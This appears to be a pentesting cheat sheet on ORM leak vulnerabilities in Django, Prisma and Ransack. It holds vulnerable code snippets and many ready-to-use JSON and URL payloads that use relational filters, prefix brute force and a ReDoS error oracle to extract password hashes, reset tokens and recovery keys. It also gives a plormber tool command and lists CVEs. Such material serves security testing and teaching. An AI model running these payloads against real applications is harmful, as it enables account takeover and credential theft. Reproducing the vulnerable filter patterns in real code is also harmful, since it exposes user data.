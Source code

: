 # ORM Leak

> An ORM leak vulnerability occurs when sensitive information, such as database structure or user data, is unintentionally exposed due to improper handling of ORM queries. This can happen if the application returns raw error messages, debug information, or allows attackers to manipulate queries in ways that reveal underlying data.

## Summary

* [Django (Python)](#django-python)
    * [Query filter](#query-filter)
    * [Relational Filtering](#relational-filtering)
        * [One-to-One](#one-to-one)
        * [Many-to-Many](#many-to-many)
    * [Error-based leaking - ReDOS](#error-based-leaking---redos)
* [Prisma (Node.JS)](#prisma-nodejs)
    * [Relational Filtering](#relational-filtering-1)
        * [One-to-One](#one-to-one-1)
        * [Many-to-Many](#many-to-many-1)
* [Ransack (Ruby)](#ransack-ruby)
* [CVE](#cve)
* [References](#references)

## Django (Python)

The following code is a basic example of an ORM querying the database.

```py
users = User.objects.filter(**request.data)
serializer = UserSerializer(users, many=True)
```

The problem lies in how the Django ORM uses keyword parameter syntax to build QuerySets. By utilizing the unpack operator (`**`), users can dynamically control the keyword arguments passed to the filter method, allowing them to filter results according to their needs.

### Query filter

The attacker can control the column to filter results by.
The ORM provides operators for matching parts of a value. These operators can utilize the SQL LIKE condition in generated queries, perform regex matching based on user-controlled patterns, or apply comparison operators such as < and >.

```json
{
    "username": "admin",
    "password__startswith": "p"
}
```

Interesting filter to use:

* `__startswith`
* `__contains`
* `__regex`

### Relational Filtering

Let's use this great example from [PLORMBING YOUR DJANGO ORM, by Alex Brown](https://www.elttam.com/blog/plormbing-your-django-orm/)
![UML-example-app-simplified-highlight](https://www.elttam.com/assets/images/blog/2024-06-24-plormbing-your-django-orm/UML-example-app-simplified-highlight1.png)

We can see 2 type of relationships:

* One-to-One relationships
* Many-to-Many Relationships

#### One-to-One

Filtering through user that created an article, and having a password containing the character `p`.

```json
{
    "created_by__user__password__contains": "p"
}
```

#### Many-to-Many

Almost the same thing but you need to filter more.

* Get the user IDS: `created_by__departments__employees__user__id`
* For each ID, get the username: `created_by__departments__employees__user__username`
* Finally, leak their password hash: `created_by__departments__employees__user__password`

Use multiple filters in the same request:

```json
{
    "created_by__departments__employees__user__username__startswith": "p",
    "created_by__departments__employees__user__id": 1
}
```

### Error-based leaking - ReDOS

If Django use MySQL, you can also abuse a ReDOS to force an error when the filter does not properly match the condition.

```json
{"created_by__user__password__regex": "^(?=^pbkdf1).*.*.*.*.*.*.*.*!!!!$"}
// => Return something

{"created_by__user__password__regex": "^(?=^pbkdf2).*.*.*.*.*.*.*.*!!!!$"}  
// => Error 500 (Timeout exceeded in regular expression match)
```

## Prisma (Node.JS)

**Tools**:

* [elttam/plormber](https://github.com/elttam/plormber) - tool for exploiting ORM Leak time-based vulnerabilities

    ```ps1
    plormber prisma-contains \
        --chars '0123456789abcdef' \
        --base-query-json '{"query": {PAYLOAD}}' \
        --leak-query-json '{"createdBy": {"resetToken": {"startsWith": "{ORM_LEAK}"}}}' \
        --contains-payload-json '{"body": {"contains": "{RANDOM_STRING}"}}' \
        --verbose-stats \
        https://some.vuln.app/articles/time-based;
    ```

**Example**:

Example of an ORM leak in Node.JS with Prisma.

```js
const posts = await prisma.article.findMany({
    where: req.query.filter as any // Vulnerable to ORM Leaks
})
```

Use the include to return all the fields of user records that have created an article

```json
{
    "filter": {
        "include": {
            "createdBy": true
        }
    }
}
```

Select only one field

```json
{
    "filter": {
        "select": {
            "createdBy": {
                "select": {
                    "password": true
                }
            }
        }
    }
}
```

### Relational Filtering

#### One-to-One

* [`filter[createdBy][resetToken][startsWith]=06`](http://127.0.0.1:9900/articles?filter[createdBy][resetToken][startsWith]=)

#### Many-to-Many

```json
{
    "query": {
        "createdBy": {
            "departments": {
                "some": {
                    "employees": {
                        "some": {
                            "departments": {
                                "some": {
                                    "employees": {
                                        "some": {
                                            "departments": {
                                                "some": {
                                                    "employees": {
                                                        "some": {
                                                            "{fieldToLeak}": {
                                                                "startsWith": "{testStartsWith}"
                                                            }
                                                        }
                                                    }
                                                }
                                            }
                                        }
                                    }
                                }
                            }
                        }
                    }
                }
            }
        }
    }
}
```

## Ransack (Ruby)

Only in Ransack < `4.0.0`.

![ransack_bruteforce_overview](https://assets-global.website-files.com/5f6498c074436c349716e747/63ceda8f7b5b98d68365bdee_ransack_bruteforce_overview-p-1600.png)

* Extracting the `reset_password_token` field of a user

    ```ps1
    GET /posts?q[user_reset_password_token_start]=0 -> Empty results page
    GET /posts?q[user_reset_password_token_start]=1 -> Empty results page
    GET /posts?q[user_reset_password_token_start]=2 -> Results in page

    GET /posts?q[user_reset_password_token_start]=2c -> Empty results page
    GET /posts?q[user_reset_password_token_start]=2f -> Results in page
    ```

* Target a specific user and extract his `recoveries_key`

    ```ps1
    GET /labs?q[creator_roles_name_cont]=​superadmin​​&q[creator_recoveries_key_start]=0
    ```

## CVE

* [CVE-2023-47117: Label Studio ORM Leak](https://github.com/HumanSignal/label-studio/security/advisories/GHSA-6hjj-gq77-j4qw)
* [CVE-2023-31133: Ghost CMS ORM Leak](https://github.com/TryGhost/Ghost/security/advisories/GHSA-r97q-ghch-82j9)
* [CVE-2023-30843: Payload CMS ORM Leak](https://github.com/payloadcms/payload/security/advisories/GHSA-35jj-vqcf-f2jf)

## References

* [ORM Injection - HackTricks - July 30, 2024](https://book.hacktricks.xyz/pentesting-web/orm-injection)
* [ORM Leak Exploitation Against SQLite - Louis Nyffenegger - July 30, 2024](https://pentesterlab.com/blog/orm-leak-with-sqlite3)
* [plORMbing your Django ORM - Alex Brown - June 24, 2024](https://www.elttam.com/blog/plormbing-your-django-orm/)
* [plORMbing your Prisma ORM with Time-based Attacks - Alex Brown - July 9, 2024](https://www.elttam.com/blog/plorming-your-primsa-orm/)
* [QuerySet API reference - Django - August 8, 2024](https://docs.djangoproject.com/en/5.1/ref/models/querysets/)
* [Ransacking your password reset tokens - Lukas Euler - January 26, 2023](https://positive.security/blog/ransack-data-exfiltration)
